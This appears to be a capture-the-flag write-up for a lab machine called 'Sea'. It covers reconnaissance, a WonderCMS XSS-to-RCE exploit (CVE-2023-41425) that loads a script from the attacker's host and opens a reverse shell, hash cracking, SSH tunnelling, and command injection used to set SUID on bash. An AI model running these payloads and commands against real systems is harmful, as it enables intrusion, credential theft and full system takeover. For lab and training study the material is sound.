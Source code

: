```yaml
---
title: Sea
tags:
  - Linux
  - CVE
  - Brute-Forcing
  - Tunnelling
  - Command-Injection
---
```

![](Pasted%20image%2020240901173921.png)

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.28 sea.htb" | sudo tee -a /etc/hosts
```

Then, I performed an Nmap scan:

```shell
nmap -sC -T4 -p- sea.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http
|_http-title: Sea - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

So I took a look at the webpage:

![](Pasted%20image%2020240901174311.png)

After some inspection, I decided to perform a subdomain scan using [Ffuf 🐳](/notes/tools/Ffuf.md) and a [dirsearch 📁](/notes/tools/dirsearch.md) scan, but I didn't found anything, so I took a look back to the webpage and discover the `contact.php` endpoint:

![](Pasted%20image%2020240901175856.png)

After some tries of XSS and SQLi, I got anything, so i went back to further enumeration again with dirsearch:

```shell
[redacted]
dirsearch -u http://sea.htb/themes/bike -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

[redacted]
[18:03:05] 301 -  239B  - /themes/bike/img  ->  http://sea.htb/themes/bike/img/
[18:03:05] 200 -    1KB - /themes/bike/home                                 
[18:03:06] 200 -    6B  - /themes/bike/version                              
[18:03:06] 404 -    3KB - /themes/bike/Home                                 
[18:03:07] 301 -  239B  - /themes/bike/css  ->  http://sea.htb/themes/bike/css/
[18:03:09] 200 -   66B  - /themes/bike/summary                              
[18:03:11] 200 -    1KB - /themes/bike/404                                  
[18:03:17] 200 -    1KB - /themes/bike/LICENSE                              
[18:03:51] 404 -    3KB - /themes/bike/HOME                                 
[18:04:27] 404 -    3KB - /themes/bike/_home                                
[18:04:37] 404 -  269B  - /themes/bike/http%3A%2F%2Fwww
```

I inspected the LICENSE and version (3.2.0):

![](Pasted%20image%2020240901180835.png)

So I decided to take a look at `turboblack` on the Internet:
- [HamsterCMS](https://github.com/turboblack/HamsterCMS)

## Weaponization

Then I searched for *"hamster cms 3.2.0 exploit"* and got [CVE-2023-41425](https://github.com/thefizzyfish/CVE-2023-41425-wonderCMS_RCE)

## Exploitation

Execute the script like:

```shell
python3 exploit.py http://sea.htb/loginURL 10.10.14.60 9001
```

Now set up a netcat listener at port 9001 and paste the following in the url of the form:

```sh
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.60:8000/xss.js"></script><form+action="
```

![](Pasted%20image%2020240901213141.png)

Now perform the following curl request:

```shell
curl "http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.60&lport=9001"
```

> We've got a reverse shell :D

![](Pasted%20image%2020240901213259.png)

Stabilize the shell:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

Unfortunately, we can't read user flag, so I decided to further inspect the machine. Inside the `/var/www/sea/data` I found a file called `database.js`, which contained a password hash:

```shell
www-data@sea:/var/www/sea/data$ cat database.js 
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/09\/01 19:38:45": "127.0.0.1",
            "2024\/09\/01 19:36:45": "127.0.0.1",
            "2024\/09\/01 19:29:44": "127.0.0.1",
            "2024\/09\/01 19:29:14": "127.0.0.1",
            "2024\/09\/01 19:27:44": "127.0.0.1"
        },
        "lastModulesSync": "2024\/09\/01",
        "customModules": {
            "themes": {},
            "plugins": {}
        },
        "menuItems": {
            "0": {
                "name": "Home",
                "slug": "home",
                "visibility": "show",
                "subpages": {}
            },
            "1": {
                "name": "How to participate",
                "slug": "how-to-participate",
                "visibility": "show",
                "subpages": {}
            }
[redacted]
```

Inspecting [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes), `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q` seems to be bcrypt. So I tried to crack that hash:

```shell
hashcat -m 3200 '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q' /usr/share/wordlists/rockyou.txt
```

After a long time arguing why it didn't work, I noticed that the `/` were escaped, so just set the command like:

```shell
hashcat -m 3200 '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' /usr/share/wordlists/rockyou.txt
```

Bingo! `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
`
> I got user flag :D

![](Pasted%20image%2020240901215438.png)

## Privilege escalation

Now it's time to run linpeas and see possible PE. I noticed that port 8080 was in use, so I decided to make a port forwarding to my machine:

![](Pasted%20image%2020240901215737.png)

In my machine I ran:

```shell
ssh -L 1010:127.0.0.1:8080 -N amay@sea.htb
```

Now I visited  the new port available:

![](Pasted%20image%2020240901220115.png)

And I used the machine credentials: `amay:mychemicalromance`:

![](Pasted%20image%2020240901220157.png)

Let's try to analyze the request of the **Analyze** button:

![](Pasted%20image%2020240901220631.png)

If we send the petition to the repeater, we can try to perform a command injection:

Command: `chmod u+s /bin/bash`

![](Pasted%20image%2020240901220855.png)

> We can now become root and obtain root flag

![](Pasted%20image%2020240901221038.png)

==Machine pwned==


